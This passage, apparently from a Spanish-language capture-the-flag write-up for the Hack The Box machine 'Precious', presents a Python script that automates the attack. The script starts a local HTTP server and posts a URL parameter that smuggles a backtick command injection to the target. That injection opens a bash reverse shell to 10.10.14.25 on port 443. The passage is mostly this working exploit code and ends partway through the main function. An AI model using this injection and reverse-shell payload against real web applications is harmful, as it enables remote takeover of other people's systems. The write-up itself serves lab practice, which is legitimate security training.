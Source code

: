 Como adicional, hemos creado un script en Python, que nos permita levantar el servicio `HTTP` de una manera más comoda

```python

#!/usr/bin/python3

import requests
import signal
import pdb # Debugging Purposes
import sys
import time
import subprocess
import atexit
import multiprocessing
from pwn import log, listen


def def_handler(sig, frame):
    cleanup()
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)


main_url = 'http://precious.htb'
http_server = subprocess.Popen(["python3", "-m", "http.server", "80"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
lport = 443


def cleanup():

    if http_server.poll() is None: # Preguntamos si el servicio aún está corriendo
        http_server.kill()

atexit.register(cleanup) # AtExit, al salir, o al terminar el programa, quiero que llames a la función cleanup


# Automatiza la solicitud
def makeRequests():

    post_data = {
        'url': 'http://10.10.14.25:80/?name=%20`bash -c "bash -i >& /dev/tcp/10.10.14.25/443 0>&1"`'  
    }

    # Vamos a realizar una petición por post, a la url principal, y le vamos a mandar post_data -> (Recordemos que esto se tomo de BurpSuite)
    r = requests.post(main_url, data=post_data)


def main():

    p1 = log.progress("Servicios")
    p1.status("Iniciando el servicio HTTP sobre el puerto 80")
    time.sleep(2)

    if http_server.poll() is None:
        p1.success("Servicio HTTP iniciado exitosamente")
    else:
        p1.error("Ha habido algun problema con el servicio HTTP")
        cleanup()
```